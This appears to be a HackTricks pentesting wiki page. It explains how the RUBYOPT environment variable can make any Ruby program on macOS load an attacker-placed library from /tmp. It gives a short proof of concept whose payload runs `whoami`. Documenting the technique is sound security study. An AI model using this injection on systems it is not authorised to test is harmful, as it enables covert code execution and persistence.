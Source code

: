 # macOS Ruby Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## RUBYOPT

Using this env variable it's possible to **add new params** to **ruby** whenever it gets executed. Although the param **`-e`** cannot be used to specify ruby code to execute, it's possible to use the params **`-I`** and **`-r`** to add a new folder to the libraries to load path and then **specify a library to load**.

Create the library **`inject.rb`** in **`/tmp`**:

```ruby:inject.rb
puts `whoami`
```

Create anywahere a ruby script like:

```ruby:hello.rb
puts 'Hello, World!'
```

Then make an arbitrary ruby script load it with:

```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```

Fun fact, it works even with param **`--disable-rubyopt`**:

```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```

{{#include ../../../banners/hacktricks-training.md}}


